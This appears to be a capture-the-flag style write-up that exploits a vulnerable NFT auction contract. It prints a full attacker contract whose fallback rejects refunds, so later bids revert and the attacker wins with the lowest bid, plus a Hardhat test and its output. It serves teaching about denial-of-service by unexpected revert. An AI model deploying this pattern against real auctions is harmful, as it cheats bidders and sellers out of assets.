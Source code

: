 The **Auction.sol** smart contract allows any user in the Internet to bid for ERC721 NFT tokens during a period of 7 days, after which the highest bidder may collect it.
However it contains a design flaw that, when exploited, gives a malicious bidder the opportunity to walk away with the NFT for the lowest price.

![Exploiting Auction.sol](https://cdn.glitch.global/67410202-16c0-4d12-bc48-1a6e6eaae69e/AuctionAttack.jpg)

The POC (proof of concept) consists of 2 files:

1. The malicious contract, `contracts/attack/AuctionAttack.sol`
```solidity
// SPDX-License-Identifier: unlicensed
pragma solidity ^0.8.0;
import "@openzeppelin/contracts/token/ERC721/IERC721.sol";
import "../vulnerable/Auction.sol";

contract AuctionAttack {
  address payable _owner;
  Auction _auctionContract;
  constructor (address _existingAuctionContractAddress) payable {
    _owner = payable(msg.sender);
    _auctionContract = Auction(_existingAuctionContractAddress);
  }

  function onERC721Received(address, address, uint256, bytes calldata) public pure returns(bytes4) {
    return bytes4(keccak256("onERC721Received(address,address,uint256,bytes)"));
  }

  modifier onlyOwner {
    require(_owner == msg.sender, "Only the owner may call");
    _;
  }

  fallback() external onlyOwner {
    // reject any refunds because the sender is not the attacker
  }

  function bid(uint256 _id) public onlyOwner {
    _auctionContract.bid{ value: 1.000001 ether }(_id);
  }

  function collect(uint256 _id) public onlyOwner {
    // this contract collects the NFT
    _auctionContract.collect(_id);
    // transfer the NFT to the attacker
    ERC721 nftContract = ERC721(_auctionContract.nftContract());
    nftContract.safeTransferFrom(address(this), _owner, _id);
    // disable this contract and return the remaining ETH to the attacker
    selfdestruct(_owner);
  }
}
```

2. The hardhat test
```javascript
    // POC can go here:
    tokenId++;
    console.log("\n EXPLOIT : \n");

    console.log("Mint a new NFT");
    tx = await auction.connect(minter).list({ value: parseEth("1", "ether") });
    await expect(tx).to.emit(auction, "ListedId").withArgs(tokenId, minter.address);
    console.log("The initial owner of NFT #", tokenId, "is", await mock721.ownerOf(tokenId));

    let balance = await attacker.getBalance();
    balance = ethers.utils.formatUnits(balance, "ether");
    console.log("The attacker's initial balance is: ", balance, "ETH");
    console.log("Attacker address:", attacker.address, "deploys a corrupt contract with enough ETH to make a bid.");
    const AuctionAttack = await ethers.getContractFactory("AuctionAttack", attacker);
    const auctionAttack = await AuctionAttack.deploy(auction.address, { value: parseEth("1.5", "ether") });

    console.log("The attacker's contract makes the lowest bid.");
    tx = await auctionAttack.bid(tokenId);

    console.log("bidder1's high bid is expected to fail.");
    await expect(auction.connect(bidder1).bid(tokenId, { value: parseEth("2", "ether") })).to.be.reverted;

    console.log("bidder2's higher bid also fails.");    
    await expect(auction.connect(bidder2).bid(tokenId, { value: parseEth("3", "ether") })).to.be.reverted;

    console.log("Fast forward 7 days, it is NFT collection time!"); 
    // fast forward blockchain time by 7 days
    await ethers.provider.send("evm_mine", [(await blockchainNow()) + 804800]); 
    tx = await auctionAttack.collect(tokenId);
    await expect(tx).to.emit(auction, "TransferId").withArgs(tokenId, minter.address, auctionAttack.address);

    console.log("Now the NFT owner is ", await mock721.ownerOf(tokenId));

    balance = await attacker.getBalance();
    balance = ethers.utils.formatUnits(balance, "ether");
    console.log("The attacker's final balance is: ", balance);
}
```

This is a typical result of the POC execution (addresses and balances may be different):

```
npx hardhat run pocs/4.js 

 CHALLENGE - 4


 EXPLOIT : 

Mint a new NFT
The initial owner of NFT # 1 is 0x5FbDB2315678afecb367f032d93F642f64180aa3
The attacker's initial balance is:  10000.0 ETH
Attacker address: 0x15d34AAf54267DB7D7c367839AAf71A00a2C6A65 deploys a corrupt contract with enough ETH to make a bid.
The attacker's contract makes the lowest bid.
bidder1's high bid is expected to fail.
bidder2's higher bid also fails.
Fast forward 7 days, it is NFT collection time!
Now the NFT owner is  0x15d34AAf54267DB7D7c367839AAf71A00a2C6A65
The attacker's final balance is:  9998.998920648138620407
```

For further reading about this type of vulnerability:
- https://swcregistry.io/docs/SWC-113
- https://consensys.github.io/smart-contract-best-practices/attacks/denial-of-service/#dos-with-unexpected-revert
